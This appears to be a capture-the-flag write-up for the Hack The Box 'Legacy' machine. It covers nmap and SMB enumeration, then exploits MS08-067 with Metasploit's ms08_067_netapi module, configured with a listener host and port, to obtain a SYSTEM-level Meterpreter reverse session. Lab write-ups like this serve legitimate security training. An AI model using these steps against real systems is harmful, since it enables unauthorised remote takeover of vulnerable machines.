









# Legacy


---

# Machine Information

| Machine | Legacy |
|----------|---------|
| IP | 10.129.227.181 |
| OS | Windows XP SP3 |
| Difficulty | Easy |
| Tags | SMB, MS08-067, Metasploit, Windows, Enumeration |

---

# Skills Learned

- SMB Enumeration
- NSE Vulnerability Scanning
- MS08-067 Remote Code Execution
- Meterpreter Post Exploitation
- Windows Enumeration
- User & Root Flag Retrieval
- Windows Hash Dumping

---

# Enumeration

## Nmap Scan

Started with a full service scan to identify exposed services.

```bash
nmap -sC -sV -oN nmap_scan 10.129.227.181
```

**Result**

- 135/tcp — MSRPC
- 139/tcp — NetBIOS
- 445/tcp — Microsoft-DS (SMB)

OS Detection identified:

- Windows XP SP3
- NetBIOS Name: LEGACY
- SMB Signing Disabled

---



---

## SMB Enumeration

The SMB scripts confirmed the operating system and additional SMB information.

```bash
nmap --script smb-* 10.129.227.181
```

Information discovered:

- Windows XP SP3
- SMB Signing Disabled
- SMBv1 Enabled
- Workgroup: HTB

---



---

# Vulnerability Assessment

Running the SMB vulnerability scripts immediately identified two critical issues.

```bash
nmap --script smb-vuln* 10.129.227.181
```

Findings:

- MS17-010 (EternalBlue)
- MS08-067 (NetAPI)

Since this is a Windows XP SP3 machine, MS08-067 is the intended exploitation path.

---



---

# Searching for an Exploit

SearchSploit confirms several public exploits for MS08-067.

```bash
searchsploit MS08-067
```

---



Metasploit also contains the official exploit module.

```bash
search MS08-067
```

---



---

# Exploitation

Selected the Metasploit module:

```bash
use exploit/windows/smb/ms08_067_netapi
```

Configured the required options.

```text
RHOSTS 10.129.227.181
LHOST 10.10.14.160
LPORT 4444
```

---



Verified the configuration.

---



Executed the exploit.

```bash
run
```

The exploit successfully triggered the vulnerability and returned a Meterpreter session running as **NT AUTHORITY\SYSTEM**.

---



---

# System Information

Verified the privileges.

```text
sysinfo
getuid
```

Output confirms:

- Windows XP SP3
- x86
- Meterpreter x86
- NT AUTHORITY\SYSTEM

---


